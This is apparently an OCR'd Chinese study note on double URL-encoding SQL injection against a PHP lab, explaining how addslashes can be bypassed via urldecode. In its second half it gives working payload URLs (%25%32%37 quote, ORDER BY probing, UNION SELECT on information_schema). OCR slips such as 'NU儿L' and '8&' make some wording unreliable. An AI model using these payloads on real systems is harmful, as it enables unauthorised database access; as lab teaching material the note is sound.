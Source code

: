 URL中可打印字符：

* 英文 a-z  A-Z
* 数字0-9
* 4个特殊字符   -  _  ·   ~
* 保留字符   ！  *  （） ;   :  @  &  =  +  $  ,  /  ?  #  []

#### 为什么要进行URL编码？

* 一些不安全字符，如果出现在URL中，可能引起解析歧义，因此需要编码
  详细解释：因为HTTP协议中参数的传输是键值对形式的，如果要传多个参数就需要用“&”符号对键值对进行分割，
  如"name1=value1  &  name2=value2",这样在服务端在收到这种字符串的时候，会用“8&”分割出每一个参数，然后
  再用“=”来分割出参数值。如果参数值中就包含=或8&这种特殊字符的时候，服务端就会解析成两个键值对。

#### 二次编码注入原理

1. 常用的防注入的函数addslashes0,原理是给(')、(“)、（）和NU儿L等特殊字符前面加上反斜杠以用于转义
    但是这些函数在遇到urldecode()或rawurldecode()函数时，会因为二次解码引发注入生成单引号，引发注入漏洞的产生。
2. urldecode0函数是对已编码的URL进行解码，但是PHP会在处理提交的数据之前先进行一次解码，因此造成了二次编码注入。

重要函数

`urlencode()`  URL编码

`urldecode()` URL解码

`rawurldecode()  `  也用于解码 URL 编码的字符串，但它对加号（`+`）的处理与 `urldecode()` 不同。`rawurldecode()` 将保留加号（`+`）作为加号本身，不会将其转换为空格（` `）。

注意：查询前先判断是什么类型的注入

1.直接   id =0  order by 5 --+ 如果可以就是数字型；

2.如果不是数字那么大概就是字符型了，输入’ 是什么情况，是否有转义/。

3.有转义就考虑二次编码或宽字节了。

dockerproxy.cn/etimeci/encodesqliexp

http://113.45.183.x:37583/page_1.php?id='      直接输入‘被、转义

![image-20240902160456-j0at8bt](assets/image-20240902160456-j0at8bt.png)

http://113.45.183.x:37583/page_1.php?id=0%25%32%37order by 1%23  对’两次URL编码成功

![image-20240902160905-aenwaoa](assets/image-20240902160905-aenwaoa.png)

http://113.45.183.x:37583/page_1.php?id=0%25%32%37order by 4%23  判断字段数为3

![image-20240902160924-hlnccg7](assets/image-20240902160924-hlnccg7.png)

http://113.45.183.x:37583/page_1.php?id=0%25%32%37union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+
